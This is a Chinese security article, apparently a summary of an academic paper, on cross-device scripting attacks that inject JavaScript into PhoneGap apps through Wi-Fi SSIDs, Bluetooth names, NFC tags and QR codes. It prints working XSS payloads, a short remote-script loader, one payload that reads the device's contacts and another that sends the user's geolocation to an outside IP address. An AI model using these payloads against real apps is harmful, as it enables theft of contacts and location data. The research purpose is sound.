# XDS: Cross-Device Scripting Attacks

2014/04/23 19:52 | [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章") | 占个座先 | 捐赠作者

from：http://www.cis.syr.edu/~wedu/Research/paper/xds_attack.pdf

## 0x00 摘要

* * *

基于 HTML5 的移动应用程序变得越来越于流行，主要是因为他们更容易在不同的移动平台进行移植。基于 HTML5 的应用程序使用标准的 Web 技术，包括 HTML5 ， JavaScript 和 CSS;它们依赖于一些如 PhoneGap 的中间件与底层的操作系统进行交互。

JavaScript 是容易受到代码注入攻击的，我们已经进行了基于 HTML5 移动应用系统的研究，试图评估依靠 Web 技术的移动应用开发是否是安全的。我们的发现是相当惊人的：如果基于 HTML5 的移动应用变得流行，似乎根据当前所调查的结果，我们每天常做的操作可能会变得危险，包括二维条码读取，扫描 Wi-Fi 接入点，播放 MP4 影片，配对蓝牙设备等。

除了通过实例的应用程序演示的攻击，我们已经研究了 186 个 PhoneGap 的插件，使用应用程序来实现各种功能，发现其中 11 是可被攻击的。还发现了两个现实当中的基于 HTML5 的应用程序，很容易受到攻击。

## 0x01 背景

* * *

基于 HTML5 的移动应用程序大多数不能直接运行在移动系统，如 Android 和 iOS ，因为这些系统不支持 HTML5 和 JavaScript 本身; Web 容器需要渲染 HTML5 以及执行 JavaScript 代码。

大多数移动系统有这样的容器：在 Android 中它是 WebView，iOS 中是 UIWebView，Windows Phone 中是 WebBrowser。为简单起见，我们以下都用 WebView 来表述。

WebView： WebView 中最初被设计为允许本地应用程序处理和显示网页内容。它基本上包的网络浏览功能组合成一个类，可以嵌入到一个应用程序，基本上是网页浏览器应用程序的组件。用 WebView 中提供的 API ，移动应用程序还可以自定义 WebView 里面的 HTML 页面。

由于 WebView 中用于加载 Web 内容，它通常是不可信的， WebView 像浏览器一样实现了一个沙盒，使内部的 JavaScript 代码只能在一个独立的环境中运行。

这样的沙箱适用于网页内容，但对于移动应用程序限制还是太大，因为它不能访问系统资源，如文件，设备传感器，照相机等。

WebView 在 JavaScript 代码和本机代码（例如， Java 的）之间搭建了一个的桥梁。这座桥可让 JavaScript 代码来调用主机代码。

已经有人开发了几个中间件框架，包括 PhoneGap ， Rhomobile， Appcelerator 等。

在本文中，我们选择把重点放在最流行的 PhoneGap。然而，我们的攻击也可以应用于其他中间件。

PhoneGap 和 PhoneGap 插件：PhoneGap 帮助开发人员创建使用基于 HTML5 标准的移动应用程序 Web。开发人员在 HTML，JavaScript 和 CSS 中写应用程序。该 PhoneGap 的框架默认情况下嵌入一个 WebView 中实例的应用程序，并依靠这个 WebView 来呈现 HTML 页面和执行 JavaScript 代码。



PhoneGap 架构图

## 0x02 XDS 攻击

* * *

有两种方式可以让 JavaScript 的字符串当成代码执行，一种是利用 eval() API，另一种是通过 DOM API 和属性，如 document.write(), appendChild(), innerHTML 等。一些 jQuery 的展示 API 也有问题，例如 html()和 append()。

```
// Using Script Tag.
<script>alert(’attack’)</script>...Data...
// Using the IMG Tag’s onerror attribute. 
...Data...

```



DOM(jQuery)展示 API 和属性（勾表示能触发，叉表示不能出发）。

### ID Channels

在某些情况下，在移动设备建立与外部建立连接之前，它从外部获对应 ID，并显示给用户。我们研究如何这样的 ID 通道利用恶意代码注入到移动设备当中。

#### Wi-Fi AP

找到附近的 Wi -Fi 接入点，许多智能手机用户安装某些 Wi-Fi 扫描仪程序，扫描附近可用的 Wi-Fi 热点，并显示他们的服务集标识符（SSID ）。

为了演示攻击，我们设置 SSID 下面的 JavaScript 代码：

```
<script>alert('attack')</script>

```

程序展示使用 java 写的所以不会执行 js 代码：



非 PhoneGap 应用

使用 PhoneGap 实现的，SSID 将在 WebView 中显示，这个程序使用 html() API 展示的 SSID 导致 JavaScript 代码执行。



PhoneGap 应用

同时蓝牙当中也可能出现类似的问题。

#### NFC 读取软件当中：



非 PhoneGap 应用



PhoneGap 应用

#### 二维码扫描：


非 PhoneGap 应用



PhoneGap 应用

#### MP3, MP4, and Images



非 PhoneGap 应用



PhoneGap 应用

等等……

## 0x04 限制

* * *

在各场景中的长度限制



可以看到 Wi-Fi 当中长度限制的最短。

可使用代码：

```
<script src=//mu.gl></script

```

img 标签的话：

```


```

如果有使用 jQuery 的话：

```


```

如果要在 SSID 当中使用的话，可以使用经典的分割代码的方式：

```


 

```

## 0x06 案例研究

* * *

看看现实当中是否有 app 可以被攻击：

### 案例 1 ： GWT Mobile PhoneGap Showcase。

这是一个 PhoneGap 的演示应用程序，它向开发人员展示了如何使用 PhoneGap 的和其插件。该应用程序包括了所有的内置插件和三个第三方插件，ChildBrowser 插件，蓝牙插件， Facebook 插件。

该 app 使用 innerHTML 来显示蓝牙设备的名称。我们把蓝牙名称改成攻击代码试一下：

```
< img src = x onerror = PhoneGap.exec(function(a) {

    m = '';
    for (i = 0; i < a.length; i++) {
        m += a[i].displayName + '\n';
    }
    alert(m);
    document.write('');
},
function(e) {},
'Contacts', 'search', [['displayName'], {}]) > 

```





### 案例 2：RewardingYourself 应用程序。

扫描二维码的程序，展示使用的 innerHTML，我们在二维码当中插入如下代码：

```
< img src = x onerror =

navigator.geolocation.watchPosition(

function(loc) {

    m = 'Latitude: ' + loc.coords.latitude +

    '\n' + 'Longitude: ' + loc.coords.longitude;

    alert(m);

    b = document.createElement('img');

    b.src = 'http: //128.230.213.66:5556?c='+m })> 

```

使用 geolocation.watchPosition 获取当前位置。







版权声明：未经授权禁止转载 [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Intent scheme URL attack](http://drops.wooyun.org/papers/2893)
*   [APK 签名校验绕过](http://drops.wooyun.org/mobile/4296)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)
*   [Samsung S Voice attack](http://drops.wooyun.org/tips/2736)
*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)